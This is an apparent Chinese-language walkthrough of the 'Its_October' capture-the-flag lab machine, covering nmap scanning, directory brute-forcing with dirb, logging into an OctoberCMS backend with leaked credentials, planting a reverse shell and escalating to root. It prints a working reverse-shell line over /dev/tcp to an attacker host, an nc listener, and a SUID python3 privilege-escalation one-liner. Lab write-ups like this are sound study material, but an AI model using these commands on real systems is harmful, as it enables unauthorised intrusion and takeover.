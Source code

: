 ### Its_October walkthrough

>kali	192.168.1.106
>
>靶机	192.168.1.116

1. **扫描靶机**

~~~
nmap -sC -sV -A -o october-scan.txt 192.168.1.116
~~~

发现开启了ssh,http,mysql

![image-20200420200853636](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201005.png)

2. **浏览网页**

浏览了一下80端口的页面，没有发现什么有价值的东西，但在8080端口的网页按`F12`发现了一个文件

![image-20200420191336204](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201006.png)

发现管理员的账号密码

![image-20200420191257169](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201007.png)

3. **目录爆破**

~~~
dirb http://192.168.1.116
~~~

使用dirb对网站进行目录爆破,发现了后台登录界面，使用在8080端口网页发现的账号密码成功登录后台

![image-20200420200622648](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201009.png)

进入后台，发现用的是OctoberCMS

![image-20200420200650941](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201010.png)

4. **获得webshell**

进入后台后发现可以添加主题，点击cms->单击add

![image-20200420200322139](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201011.png)

在code的内加入下面的反向外壳代码，但因为这个cms的问题，我们需要将代码放置到js的函数中去，使我们能的到它的webshell

~~~
 exec("/bin/bash -c 'bash -i > /dev/tcp/yourip/5000 0>&1'");
~~~

![image-20200420200241266](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201012.png)

使用nc监听5000端口,在访问该链接即可获得webshell

~~~
nc -lvp 5000
~~~

![image-20200420190944606](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201013.png)

5. **提权**

使用find的来查看suid权限的命令,发现有python3

~~~
find / -perm -u=s -type f 2>/dev/null
~~~

![image-20200420191020322](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201014.png)

使用python3来提权

~~~python
python3 -c 'import os;os.execl("/bin/bash","sh","-p")'
~~~

![image-20200420191149225](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201015.png)

参考链接

> https://gtfobins.github.io/gtfobins/python/

6. **获得flag**

进入root目录，发现proof.txt

![image-20200420191214422](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420200128.png)

7. **总结**

这次主要学习了用find来查找拥有suid权限的命令，以及使用python来进行提权